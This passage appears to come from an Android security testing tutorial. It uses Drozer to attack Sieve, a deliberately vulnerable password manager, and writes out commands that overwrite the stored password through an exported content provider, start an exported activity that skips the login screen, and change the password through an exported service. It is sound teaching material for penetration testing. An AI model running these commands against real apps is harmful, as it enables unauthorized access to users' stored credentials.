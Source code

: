 This content provider can be accessed without any permission.

```
dz> run app.provider.update content://com.mwr.example.sieve.DBContentProvider/Keys/ --selection "pin=1234" --string  Password "newpassword"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password    | pin  |
| newpassword | 1234 |
```

##### Activities

To list activities exported by an application the module `app.activity.info` should be used. Specify the target package with `-a` or leave blank to target all apps on the device:

```
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null  
```

By enumerating activities in the vulnerable password manager "Sieve", the activity `com.mwr.example.sieve.PWList` is found to be exported with no required permissions. It is possible to use the module `app.activity.start` to launch this activity.

```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

Since the activity was called directly, the login form protecting the password manager was bypassed, and the data contained within the password manager could be accessed.

##### Services

Services can be enumerated using the Drozer module `app.service.info`:

```
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```

To communicate with a service, static analysis must first be used to identify the required inputs.

Since this service is exported, it is possible to use the module `app.service.send` to communicate with the service and change the password stored in the target application:

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg  6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 42
  arg2: 0
  Empty
```
